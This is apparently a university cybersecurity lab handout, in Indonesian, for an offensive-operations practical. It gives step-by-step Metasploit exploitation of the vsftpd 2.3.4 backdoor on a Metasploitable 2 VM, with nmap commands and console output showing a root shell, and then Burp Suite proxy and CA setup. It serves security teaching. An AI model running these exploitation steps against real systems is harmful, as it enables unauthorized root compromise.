## **TUGAS PRAKTIKUM MINGGU 3-5: OPERASI SIBER OFENSIF**

**Mata Kuliah:** Keamanan Siber Terapan
**Kode Modul:** KS-LAB-02
**Durasi:** 3 Sesi x 4 Jam Praktikum

-----

### **A. TUJUAN PEMBELAJARAN**

Setelah menyelesaikan modul praktikum tiga minggu ini, mahasiswa diharapkan mampu:

1.  **Menggunakan** *Metasploit Framework* untuk melakukan eksploitasi terhadap kerentanan layanan jaringan yang diketahui.
2.  **Mengoperasikan** *Burp Suite* untuk melakukan uji penetrasi dasar pada aplikasi web, spesifiknya mengidentifikasi dan mengeksploitasi kerentanan *SQL Injection*.
3.  **Memahami** alur kerja dan konsep dari *Adversary Simulation* dan *Command and Control* (C2) menggunakan model operasional Cobalt Strike.
4.  **Melaksanakan** teknik-teknik dasar pasca-eksploitasi (*post-exploitation*), termasuk pengumpulan kredensial dan gerakan lateral (*lateral movement*).
5.  **Menyusun** sebuah Laporan Uji Penetrasi (*Penetration Test Report*) yang profesional dan terstruktur berdasarkan temuan selama praktikum.

-----

### **B. KEBUTUHAN ALAT DAN BAHAN**

Modul ini akan menggunakan lingkungan lab yang telah dibangun sebelumnya dan menambahkan satu mesin target baru yang sengaja dibuat rentan.

**1. Kebutuhan Perangkat Keras:**

  * Spesifikasi minimal dari Modul KS-LAB-01 (16 GB RAM, 4+ Core CPU, 150 GB SSD) tetap berlaku.

**2. Mesin Virtual yang Sudah Ada:**

  * **Kali Linux VM** (Penyerang) | IP: `192.168.100.10`

  * **Security Onion VM** (Pemantau) | IP: `192.168.100.100`

**3. Mesin Virtual Baru (Target Tambahan):**

  * **Metasploitable 2**: Ini adalah VM Linux yang sengaja dibuat sangat rentan untuk tujuan pembelajaran.
      * **Unduh dari**: [https://information.rapid7.com/download-metasploitable-2.html](https://www.google.com/search?q=https://information.rapid7.com/download-metasploitable-2.html) (Memerlukan registrasi singkat).
      * File yang diunduh akan berupa file `.zip` yang berisi file `.vmdk`.

**4. Perangkat Lunak Tambahan:**

  * **Metasploit Framework**: Sudah terinstal di Kali Linux.
  * **Burp Suite Community Edition**: Sudah terinstal di Kali Linux.
  * **Cobalt Strike (Trial)**: Cobalt Strike adalah tool komersial. Untuk tujuan pembelajaran, kita akan menggunakan versi trial (jika tersedia) atau berfokus pada pemahaman alur kerja dan konsepnya. Modul ini akan mensimulasikan penggunaannya.

-----

### **C. PERINGATAN KEAMANAN DAN ETIKA**

**\!\!\! SANGAT PENTING \!\!\!**

  * **ISOLASI LINGKUNGAN**: Semua aktivitas dalam modul ini **WAJIB** dilakukan di dalam lingkungan laboratorium virtual yang telah Anda bangun (`cyberlab-net`). **JANGAN PERNAH** menjalankan tool atau teknik ini pada jaringan atau sistem di luar lab Anda (jaringan kampus, WiFi publik, atau internet secara umum).
  * **TUJUAN PEMBELAJARAN**: Tool dan teknik yang diajarkan dalam modul ini adalah senjata siber. Penggunaannya di luar tujuan pendidikan yang sah adalah **ILEGAL** dan dapat dikenakan sanksi pidana berdasarkan Undang-Undang ITE.
  * **TANGGUNG JAWAB**: Anda bertanggung jawab penuh atas setiap tindakan yang Anda lakukan. Modul ini bertujuan untuk mendidik para profesional keamanan siber (pembela), bukan untuk melatih pelaku kejahatan. Pahami cara kerja penyerang agar Anda tahu cara bertahan.

-----

-----

### **D. MODUL 3 (MINGGU KE-3): EKSPLOITASI LAYANAN JARINGAN DENGAN METASPLOIT**

**Tujuan:** Mendapatkan akses awal (*initial foothold*) ke mesin target dengan mengeksploitasi kerentanan layanan yang diketahui.

#### **3.1. Penyiapan Target Metasploitable 2**

1.  **Ekstrak File**: Ekstrak file `.zip` Metasploitable 2. Anda akan mendapatkan file `Metasploitable.vmdk`.
2.  **Buat VM Baru di VirtualBox**:
      * Klik **New**.
      * Name: `Metasploitable2-Target`
      * Type: `Linux`, Version: `Ubuntu (64-bit)`
      * Memory size: **1024 MB** (1 GB).
      * Hard disk: Pilih **Use an existing virtual hard disk file**. Klik ikon folder dan arahkan ke file `Metasploitable.vmdk` yang telah Anda ekstrak. Klik **Create**.
3.  **Konfigurasi Jaringan**:
      * Pilih VM `Metasploitable2-Target`, klik **Settings**.
      * **Network \> Adapter 1**: Enable, *Attached to*: **Internal Network**, *Name*: `cyberlab-net`.
4.  **Nyalakan dan Login**:
      * Nyalakan VM. Ia akan boot ke layar login.
      * Login dengan kredensial default: `msfadmin` / `msfadmin`.
5.  **Verifikasi IP**: Buka terminal dan ketik `ifconfig`. Anda akan melihat IP address yang didapat (biasanya `192.168.100.101` jika DHCP server tidak ada). Kita akan menggunakan IP ini sebagai target.

#### **3.2. Fase Reconnaissance (Menggunakan Kali Linux)**

Sebelum menyerang, kita harus tahu apa yang kita serang. Ulangi proses reconnaissance dari modul sebelumnya, kali ini pada target baru.

1.  Buka terminal di **Kali Linux**.
2.  Jalankan scan Nmap yang detail pada target Metasploitable 2:
    ```bash
    sudo nmap -sS -sV -p- --min-rate=1000 -Pn -oN metasploitable_scan.txt 192.168.100.101
    ```
    
3.  Analisis hasilnya. Buka file `metasploitable_scan.txt`. Anda akan melihat **banyak sekali** port yang terbuka. Cari entri yang menarik. Sebagai contoh, Anda akan menemukan baris seperti ini:
    ```text
    21/tcp  open  ftp      vsftpd 2.3.4
    ```
    
    Layanan FTP dengan versi `vsftpd 2.3.4` ini diketahui memiliki *backdoor* yang sangat terkenal. Ini akan menjadi target eksploitasi kita.

#### **3.3. Fase Eksploitasi dengan Metasploit Framework**

Sekarang kita akan menggunakan Metasploit untuk mengeksploitasi kerentanan `vsftpd 2.3.4`.

1.  **Mulai Metasploit**: Buka terminal baru di Kali dan jalankan:

    ```bash
    msfconsole
    ```
    

    Tunggu beberapa saat hingga Metasploit console siap (ditandai dengan prompt `msf6 >`).

2.  **Cari Eksploit**: Gunakan perintah `search` untuk mencari modul eksploit yang relevan dengan `vsftpd 2.3.4`.

    ```bash
    msf6 > search vsftpd 2.3.4

    Matching Modules
    ================

       #  Name                                 Disclosure Date  Rank    Check  Description
       -  ----                                 ---------------  ----    -----  -----------
       0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
    ```
    

    Metasploit menemukan satu modul eksploit yang sangat cocok. Peringkat `excellent` berarti eksploit ini sangat stabil dan hampir pasti berhasil.

3.  **Gunakan Eksploit**: Muat modul eksploit tersebut dengan perintah `use`.

    ```bash
    msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
    ```

    Prompt Anda akan berubah menjadi `msf6 exploit(unix/ftp/vsftpd_234_backdoor) >`, menandakan modul telah dimuat.

4.  **Lihat Opsi**: Setiap modul memiliki opsi yang perlu dikonfigurasi. Gunakan `show options` untuk melihatnya.

    ```bash
    msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

    Module options (exploit/unix/ftp/vsftpd_234_backdoor):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       RHOSTS                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT  21               yes       The target port (TCP)

    Payload options (cmd/unix/interact):
    ...
    ```
    

    Kita bisa lihat bahwa `RHOSTS` (Remote Host / Target) adalah satu-satunya opsi yang **wajib** (`yes`) diisi.

5.  **Atur Target**: Set opsi `RHOSTS` ke alamat IP Metasploitable 2.

    ```bash
    msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.100.101
    RHOSTS => 192.168.100.101
    ```
    

6.  **Jalankan Eksploit**: Gunakan perintah `exploit` atau `run` untuk melancarkan serangan.

    ```bash
    msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

    [*] 192.168.100.101:21 - Banner: 220 (vsFTPd 2.3.4)
    [*] 192.168.100.101:21 - USER: Backdoor trigger sent.
    [*] Command shell session 1 opened (192.168.100.10:43215 -> 192.168.100.101:6200) at 2025-10-21 11:30:00 -0500
    ```


    **SUKSES\!** Baris `Command shell session 1 opened` menandakan Anda telah berhasil mendapatkan akses *shell* ke mesin target.

7.  **Verifikasi Akses**: Anda sekarang berada di dalam *shell* mesin target. Jalankan beberapa perintah Linux untuk membuktikannya.

    ```bash
    whoami
    root
    id
    uid=0(root) gid=0(root)
    ifconfig
    ... (akan menampilkan konfigurasi jaringan Metasploitable 2) ...
    ```
    

    Hasil `uid=0(root)` menunjukkan Anda memiliki hak akses tertinggi di sistem. Anda telah berhasil mengkompromikan target.

##### **Diagram Alur Kerja Metasploit**



### **E. MODUL 4 (MINGGU KE-4): UJI PENETRASI APLIKASI WEB DENGAN BURP SUITE**

**Tujuan:** Menggunakan Burp Suite untuk mencegat, memanipulasi, dan menganalisis lalu lintas HTTP/S untuk menemukan dan mengeksploitasi kerentanan *SQL Injection*.

#### **4.1. Penyiapan Burp Suite dan Proxy Browser**

Ini adalah langkah paling krusial. Burp Suite bekerja sebagai *Man-in-the-Middle proxy*. Semua lalu lintas dari browser Anda akan diarahkan melalui Burp Suite sebelum sampai ke server target, memungkinkan Anda untuk melihat dan mengubahnya.

1.  **Mulai Burp Suite**: Di Kali Linux, cari dan jalankan "Burp Suite Community Edition". Pilih *Temporary project* dan klik *Start Burp*.


2.  **Konfigurasi Proxy**:

      * Di Burp Suite, pergi ke tab **Proxy \> Options**. Pastikan proxy listener aktif di `127.0.0.1:8080`.

3.  **Konfigurasi Browser (Firefox di Kali)**:

      * Buka Firefox. Pergi ke **Settings \> General**, scroll ke bawah ke **Network Settings**, klik **Settings...**.
      * Pilih **Manual proxy configuration**.
      * Isi *HTTP Proxy* dengan `127.0.0.1` dan *Port* dengan `8080`.
    
      * Centang juga **Use this proxy for HTTPS**.
      * Klik **OK**.

4.  **Instal Sertifikat CA Burp**:

      * Dengan proxy masih aktif, buka alamat `http://burpsuite` di Firefox.
    
      * Klik tombol **CA Certificate** di pojok kanan atas untuk mengunduh file sertifikat (`cacert.der`).
    
      * Di Firefox, pergi ke **Settings \> Privacy & Security**, scroll ke bawah ke **Certificates**, klik **View Certificates...**.
    
      * Pilih tab **Authorities**, klik **Import...**.
    
      * Pilih file `cacert.der` yang baru diunduh.
      * Centang **Trust this CA to identify websites.** dan klik **OK**.
    

    Browser Anda sekarang akan "mempercayai" Burp Suite untuk mencegat lalu lintas HTTPS tanpa menampilkan error.

##### **Diagram Alur Kerja Proxy Burp Suite**

